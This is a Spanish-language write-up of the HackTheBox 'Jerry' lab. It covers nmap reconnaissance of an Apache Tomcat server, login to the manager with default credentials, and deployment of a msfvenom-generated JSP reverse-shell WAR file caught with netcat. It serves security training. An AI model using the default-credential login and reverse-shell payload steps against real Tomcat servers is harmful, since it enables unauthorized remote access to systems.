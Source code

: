![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167362483-2fb9697d-8b28-490a-8f61-2a60dcf94c31.png)

# HTB-Jerry

En primer lugar, nos creamos un directorio con el nombre de la máquina desde el que trabajaremos:

    sudo mkdir Jerry
    
Ahora, mediante la función <a href="../Web/Herramientas_y_Scripts/mkt.html" style="text-decoration:none">`mkt`</a> que tengo previamente definida en la `.zhshrc` crearemos nuestros directorios de trabajo:

    sudo mkt

Esta función está definida para crearnos cuatro directorios (`nmap`, `content`, `exploits` y `scripts`) desde los cuales poder trabajar a la hora de
realizar las máquinas de HTB.

## Fase de Reconocimiento:

Ejecutamos un `ping` y vemos como nos reporta un ttl=127, por tanto, ya sabemos que estamos frente una máquina Windows.

    ping -c 1 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-41-43](https://user-images.githubusercontent.com/103068924/167363813-7dab983b-d779-40bb-9ee9-fa2098fad932.png)

Ahora vamos a ver mediante `whatweb` que más podemos ver:

    whatweb 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-48-48](https://user-images.githubusercontent.com/103068924/167364415-8e3dae47-0de7-4b61-b469-d7f0dbff2539.png)

Nos reporta un erro al tratar de acceder. Por tanto, vamos a realizar mediante [`nmap`](../Herramientas_y_Scripts/Nmap.html)
una serie de escaneos para ver que puertos se encuentran abiertos, primero realizaré un escaneo básico:

    nmap -p- --open -T5 -v -n 10.10.10.95 -oG allPorts
  
`-oG` : Exportar los resultados en formato grepeable.
  
`allPorts` : Nombre del archivo. Si no existe lo creará.
  
Guardamos los resultados en el archivo `allPorts`, de esta manera podremos revisar los puertos que estaban abiertos en cualquier momento.

![Captura de pantalla -2022-05-09 10-02-16](https://user-images.githubusercontent.com/103068924/167366619-2fea1b36-9776-47cd-8c0d-a516313f4c11.png)

![Captura de pantalla -2022-05-09 10-02-34](https://user-images.githubusercontent.com/103068924/167366626-008b8f13-f83a-4e1d-a74c-9e3844c33f17.png)

Como podemos ver, nos reporta que el puerto 8080 está abierto, vamos a proceder a un segundo escaneo especificando
que quereros utilizar la variable `--script http-enum` en el puerto 8080 y guardaremos los resultados en el archivo 
`targetenum`.

    sudo nmap --script http-enum -p8080 10.10.10.95 -oN targetenum 
    
![Captura de pantalla -2022-05-07 15-15-30](https://user-images.githubusercontent.com/103068924/167366694-67b211b3-0e2c-45d5-9d33-217119e4df2b.png)

![Captura de pantalla -2022-05-07 15-24-03](https://user-images.githubusercontent.com/103068924/167366815-7cda1186-3b70-4313-b7bd-cbc85727409c.png)

Vemos que en el puerto `8080` corre un servicio `http`, por tanto, vamos a intentar acceder mediante el navegador de Firefox.

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167367405-e0c39dde-b045-4a47-996c-8585896b46e5.png)

Vemos que al intentar acceder al dominio `http://10.10.10.95` la página no termina de cargar, pero tampoco reporta ningún error. Por tanto, lo siguiente que
probaremos será especificar el puerto en el que corre el servicio, por tanto, intentamos acceder al dominio `http://10.10.10.95:8080`.

![Captura de pantalla -2022-05-07 15-11-45](https://user-images.githubusercontent.com/103068924/167368005-2fbf0775-5bb5-4ee6-ba8d-386529a1706c.png)

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167368016-77a414e6-3ce0-4ee2-ae34-d79d955ca882.png)

## Fase de Inrusión:

Genial ya nos carga la página, vemos que se trata de la página oficial de un programa llamado `Tomcat`. Lo siguiente que vamos a probar, es tratar de
acceder al directorio `./manager/html`.

![Captura de pantalla -2022-05-07 15-17-15](https://user-images.githubusercontent.com/103068924/167369103-a8c49c92-7566-4e5a-8cc2-0077f62154ad.png)

![Captura de pantalla -2022-05-07 15-17-33](https://user-images.githubusercontent.com/103068924/167369119-303c65f3-30f4-4435-a170-a8d7ca3a8cd3.png)

Nos muestra una ventana de registro, como se trata de una máquina fácil, podemos probar con combinaciones básicas para ver si conseguimos ingresar
de manera sencilla.

![Captura de pantalla -2022-05-07 15-17-43](https://user-images.githubusercontent.com/103068924/167369536-153cffa5-e7a3-48ba-a9a7-5a6b6a9d761e.png)

Tras probar algunas combinaciones vemos que utilizando el usuario `admin` y la contraseña `admin` nos reporta este mensaje con un error de servicio 403.

![Captura de pantalla -2022-05-07 15-18-05](https://user-images.githubusercontent.com/103068924/167369705-e43f467d-4aea-4226-b0d3-2a8c5c3690b2.png)

Vemos como nos indica un ejemplo, donde nos muestra unas credenciales que se han usado para mostrar el ejemplo.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167369862-6c157b14-f241-4432-8fe9-d5e4707857a1.png)

Tratamos de acceder al panel anterior mediante estas credenciales a ver si nos permite registrarnos como el usuario `tomcat` y empleando la contraseña
`s3cret`.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167370646-06f8b867-1bbc-4920-848a-fd7e651d0a3c.png)

![Captura de pantalla -2022-05-09 10-23-23](https://user-images.githubusercontent.com/103068924/167370670-7fe63026-5173-4dce-bff7-7baeb579db9d.png)

![Captura de pantalla -2022-05-07 15-22-16](https://user-images.githubusercontent.com/103068924/167370734-2bb21a68-2dcd-4897-9047-fde8b66decbe.png)

Las credenciales funcionan y nos lleva hasta una página que parece gestionar aplicaciones. 

Tras revisar la página vemos que nos permite subir archivos, así que vamos a tratar de buscar alguna herramienta que nos permita crear una
shell inversa desde la cual poder interactuar con la máquina.

## Creación de una Reverse Shell mediante MsfVenom:

Mediante `msfvenom` podemos tratar de comprobar una gran cantidad de herramientas:

    msfvenom -l payloads

![Captura de pantalla -2022-05-07 15-25-25](https://user-images.githubusercontent.com/103068924/167371974-d9b41da2-3d47-40a1-8498-6d2f25678fc3.png)

![Captura de pantalla -2022-05-07 15-27-24](https://user-images.githubusercontent.com/103068924/167372055-941c21d6-2d55-4808-9994-391d329511a5.png)

Vamos a emplear la herramienta `jsp_shell_reverse_tcp`. Esta herramienta, especificándole nuestro host de escucha y el puerto mediante el siguiente
comando, nos creará un archivo en formato `.war` capaz de crear una shell inversa desde la máquina víctima.

![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167385544-1f78a708-b08c-4c23-b6b3-8787c0f05fd4.png)

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.14.29 LPORT=8080 -f war -o shell.war
    
![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167376951-11f44b27-79b4-4988-b325-4f8e8423ccb7.png)
    
Una vez creado nuestro archivo `shell.war` vamos a subirlo a la máquina víctima, pero antes, debemos mover nuestro archivo
al directorio `Descargas/Downloads`:

![Captura de pantalla -2022-05-07 15-32-25](https://user-images.githubusercontent.com/103068924/167373933-05569db6-7535-4e68-b2a3-ae5c0e72fb63.png)

Ahora, mediante el apartado de la página llamado `Archivo WAR a desplegar` subimos nuestro archivo `shell.war`.

![Captura de pantalla -2022-05-07 15-32-55](https://user-images.githubusercontent.com/103068924/167374610-e9b1e566-2a29-4116-bfec-33a11ae25fc6.png)

![Captura de pantalla -2022-05-07 15-33-38](https://user-images.githubusercontent.com/103068924/167374653-431287e4-5091-47b0-968a-85ec85904e40.png)

![Captura de pantalla -2022-05-07 15-34-28](https://user-images.githubusercontent.com/103068924/167374662-ab39d3f4-9253-43a4-9079-91b7a7caf281.png)

![Captura de pantalla -2022-05-07 15-34-42](https://user-images.githubusercontent.com/103068924/167374683-17d0860c-4808-40af-9788-25955448d081.png)

Recargamos la página y vemos como aparece nuestro archivo. El siguiente paso será ponerlo en escucha por el puerto `8080` mediante `nc` como se 
trata de un sistema Windows utilizaremos `rlwarp`:

    rlwrap nc -lvnp 8080

![Captura de pantalla -2022-05-09 11-07-21](https://user-images.githubusercontent.com/103068924/167385711-908c4b6b-e40d-48c2-8978-5536a0850301.png)


![Captura de pantalla -2022-05-09 11-07-30](https://user-images.githubusercontent.com/103068924/167386060-d0be171e-6afb-468c-a5c4-8699f4ffc08a.png)


Ahora, para ejecutar el archivo, simplemente nos vamos a la página y lo pulsamos.


![Captura de pantalla -2022-05-09 11-49-32](https://user-images.githubusercontent.com/103068924/167386089-4cd94622-03f5-45df-83d6-da925a2ea417.png)

Vemos como la shell se nos despliega en la terminal que tenemos en escucha con Netcat.

![Captura de pantalla -2022-05-09 11-55-16](https://user-images.githubusercontent.com/103068924/167386486-2bea3986-982e-4163-8293-4cf58fccc4f4.png)

Está máquina ya está básicamente terminada, ya que las dos flags se encuentran en el mismo archivo, el cual se encuentra en el directorio 
`C:\Users\Administrator\Desktop\flags`:

    cd /Users/Administrator/Desktop/flags
    
Vemos como dentro del directorio `flags` se encuentra el archivo `2 for the price at 1.txt`

![Captura de pantalla -2022-05-09 12-01-47](https://user-images.githubusercontent.com/103068924/167387535-4165e282-73a2-4d0a-a41a-4893cd492ef6.png)

Y finalmente, mediante `type` podemos visualizar el contenido:

![Captura de pantalla -2022-05-07 15-59-28](https://user-images.githubusercontent.com/103068924/167387517-8daf25ec-3c37-486f-8695-2894ca5daabe.png)


![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167387740-ca9ebbf6-6e75-47f5-b8e5-076a6e0eee27.png)

---
---
  
    
<html lang="en">
<head>
  
</head>
<body>

<script src="https://utteranc.es/client.js"
    repo="F1r0x/gestion-comentarios"
    issue-term="pathname"
    theme="github-light"
    crossorigin="anonymous"
    async>
</script>
          
    
  </body>
</html>
  
  
---
---



